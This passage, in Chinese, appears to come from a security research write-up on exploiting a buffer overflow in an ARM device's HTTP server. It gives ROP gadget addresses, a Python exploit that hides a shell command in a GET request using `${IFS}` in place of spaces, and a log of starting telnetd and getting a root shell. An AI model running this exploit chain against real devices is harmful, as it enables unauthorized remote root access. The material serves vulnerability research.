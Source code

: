 经过一番搜索，我得到了以下解决方案：

```
0x000175cc: pop {r3, pc}
0x000535e8: system
0x000368dc: mov r0, sp; blx r3

```

第一个gadget将R3设置为一个可控的值，并跳转到下一个地址。第二个gadget（`mov r0, sp; blx r3`）将栈指针移动到R0（`system`函数的第一个参数），并跳转到R3，而我们之前已经将R3设置为`system`函数的地址。

函数地址，例如`system`函数的地址，可以使用`readelf -s`命令来确定。不过，需要记住的是，我们需要将相应二进制文件或库的基地址添加到输出中看到的偏移量上。这样在构建ROP链时，才能确保使用正确的地址。

```bash
$ readelf -s libc.so.0 | grep system
   659: 0003dfc0    80 FUNC    GLOBAL DEFAULT    7 svcerr_systemerr
   853: 000535e8   116 FUNC    WEAK   DEFAULT    7 system
   864: 000535e8   116 FUNC    GLOBAL DEFAULT    7 __libc_system

```

正如前面所了解到的，有效载荷中不能包含任何空格。不过，我发现可以使用广为人知的 `${IFS}` 策略轻松绕过这一限制 。

把所有内容整合起来，我得到了一个大致如下的漏洞利用代码（完整源代码见文末）：

```python
def main():
    maps = fetch_maps()
    libc, libc_base = parse_maps(maps)

    payload = b""
    payload += 304 * b"A"
    payload += pack("<I", libc_base + GADGETS[libc][0])  # pop {r3, pc}
    payload += pack("<I", libc_base + GADGETS[libc][1])  # system
    payload += pack("<I", libc_base + GADGETS[libc][2])  # mov r0, sp; blx r3

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((HOST, PORT))
        sock.send(b"GET /" + payload + CMD.replace(b" ", b"${IFS}") + b";.mns.cab HTTP/1.1")
        sock.send(b"\\r\\n\\r\\n")

        print(sock.recv(1024))

```

由于在没有远程交互方式的情况下，使用 `/bin/sh` 作为命令并没有太大用处，所以我使用 `telnetd` 在1337端口启动了一个本地Telnet服务器。这样我就可以连接并获取一个Shell

```bash
kali@kali:~$ python exploit.py 192.168.2.2 80
connecting to 192.168.2.2:80
libc.so.0 found at 0xf7974000
b'HTTP/1.0 200 OK\\n'
kali@kali:~$ telnet 192.168.2.2 1337
Trying 192.168.2.2...
Connected to 192.168.2.2.
Escape character is '^]'.
# echo $USER
root
# ls
bin

```
